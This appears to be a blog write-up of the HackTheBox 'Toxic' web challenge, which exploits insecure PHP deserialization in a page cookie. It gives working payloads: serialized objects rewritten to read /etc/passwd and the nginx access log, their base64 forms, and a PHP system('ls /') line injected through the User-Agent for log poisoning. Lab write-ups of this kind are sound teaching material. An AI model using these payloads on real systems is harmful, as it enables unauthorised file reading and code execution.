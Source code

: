 # HackTheBox Toxic

![Open Lightbox](../assets/toxic1.webp){ .glightbox .center width="600" }
```
HTB-Challenges:- Web   
Challenge Info:- Web-Application-based 
Challenge level:- Easy
```

---
Started the machine and got the ip and port opened the browser and entered URL.

![Open Lightbox](../assets/toxic2.webp){ .glightbox .center width="500" }

Got a Simple web page and also downloaded the Necessary files to play the challenge.
unzipped the file and there we go the flag, lol not so easily its just a test flag.


![Open Lightbox](../assets/toxic3.webp){ .glightbox .center width="500" }

So i continued to manually find any clue in the files and finally saw something interesting.

Toxic/web\_toxic/challenge/index.php

![Open Lightbox](../assets/toxic4.webp){ .glightbox .center width="500" }

Serialize and Unserialize as soon as I saw this I knew it was an Insecure Deserialization vulnerability So I looked at the cookie of the URL that opened.

![Open Lightbox](../assets/toxic5.webp){ .glightbox .center width="500" }

Now i copied the cookie and decoded it base64.

![Open Lightbox](../assets/toxic6.webp){ .glightbox .center width="500" }

```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```
now I was more confident that it must be an Insecure Deserialization vulnerability

Reference for Insecure Deserialization

[**Insecure Deserialization**  
*Edit description*tanish-26.gitbook.io](https://tanish-26.gitbook.io/insecuredeserialization/ "https://tanish-26.gitbook.io/insecuredeserialization/")

So now i made some changes in the cookie to test it.

```bash
"O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}"
```

And again encoded it as base64.

```js
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30K
```

Now used burp suite to capture the request and in the repeater changed the values for this particular parameter.


```bash
Cookie: PHPSESSID= 
```
And put the encoded value there.

![Open Lightbox](../assets/toxic6.webp){ .glightbox .center width="500" }

And it worked, so now we can look for how can we obtain the flag   
because it was mentioned in the lab description not to obtain a shell but we in to fetch the flag.

Let’s do that first I requested /var/log/nginx/access.log and again encoded it as base64 and sent the request.

![Open Lightbox](../assets/toxic8.webp){ .glightbox .center width="500" }

So the user-agent was reflected as well we can try putting a payload in the user-agent.   

let’s do that and try again and this time got it, it listed all the contents of the / folder including the flag.


```php
<? Php system('ls /');?>
```

Also base64 encode it.

```bash
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/flag\_abY2P";}' | base64
```

```js
Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2ZsYWdfYWJZMlAiO30K
```
Send the request and here we got the flag.

![Open Lightbox](../assets/toxic9.webp){ .glightbox .center width="500" }

Thank you for reading


